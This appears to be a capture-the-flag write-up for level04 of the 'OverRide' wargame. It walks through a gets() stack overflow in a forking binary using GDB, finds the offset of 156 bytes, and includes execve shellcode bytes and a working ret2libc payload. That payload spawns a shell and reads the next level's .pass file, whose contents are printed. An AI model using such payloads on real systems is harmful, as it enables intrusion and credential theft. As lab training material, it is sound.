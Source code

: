 

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
child is exiting...
```
i noticed gets() which is vulnurable to beffetOverflow
```
run

=> 0x080486d6 <+14>:	call   0x8048550 <fork@plt>
   0x080486db <+19>:	mov    %eax,0xac(%esp)
   
(gdb) ni
0x080486db in main ()
(gdb) Give me some shellcode, k   
   
```
as u see the main parent process jumps directly to the prompt

In GDB, ptrace is used to monitor and control the execution of the program being debugged. 
GDB uses ptrace to set breakpoints, read and write memory, and control the execution of the program.

When ptrace() is called, it allows the parent process to observe and control the execution of the child process.

In the case of gdb, it calls fork() to create a child process, and then calls ptrace() on the child to observe and control its execution.
This allows gdb to pause the execution of the child process, inspect its memory and registers, set breakpoints, and other debugging operations.

One alternative to inferior command in GDB to trace the execution of forked child process is to use the set follow-fork-mode command.

`By default, GDB stops the parent process when it encounters a fork call, and allows you to continue debugging the child process.` 

The set follow-fork-mode command allows you to specify how GDB should handle the creation of a child process. You can set it to one of the following modes:

parent: GDB will remain attached to the parent process after a fork, and will not automatically follow the child process.
child: GDB will detach from the parent process and attach to the child process after a fork.
ask: GDB will prompt you for which process to follow after a fork.


(gdb) set follow-fork-mode child
```
=> 0x80486d6 <main+14>:	call   0x8048550 <fork@plt>
   0x80486db <main+19>:	mov    %eax,0xac(%esp)
   
   
(gdb) i r
eax            0x0	0

so now we re dealing with a child process
```



=> 0x804875e <main+150>:	call   0x80484b0 <gets@plt>

```
(gdb) run <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1709]
=> 0x6261616f

(gdb) i r $eip
eip            0x6261616f

➜  Desktop cyclic -l 0x6261616f
156

(gdb) run <<<$(python -c 'print "A" * 156 + "BBBB"')
Cannot access memory at address 0x42424242
```

```
(gdb)
=> 0x804875e <main+150>:	call   0x80484b0 <gets@plt>

(gdb) x/60wx $esp
0xffffd650:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd660:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd670:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd680:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd690:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6e0:	0x41414141	0x41414141	0x41414141	0x42424242

(gdb) p/d 0xffffd6ec - 0xffffd650
$2 = 156

```
this syntax with shellcode isn't working for me
`(python -c 'print "A" * 135 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\xff\xff\xd6\x50"[::-1]' ; cat) | ./level04`

ill try ret2libc
```
p system
$3 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) info proc mappings
   0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
   
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec   
```
```
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "AAAA" + "\xf7\xf8\x97\xec"[::-1]' ; cat) | ./level04
Give me some shellcode, k
pwd
/home/users/level04
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```


























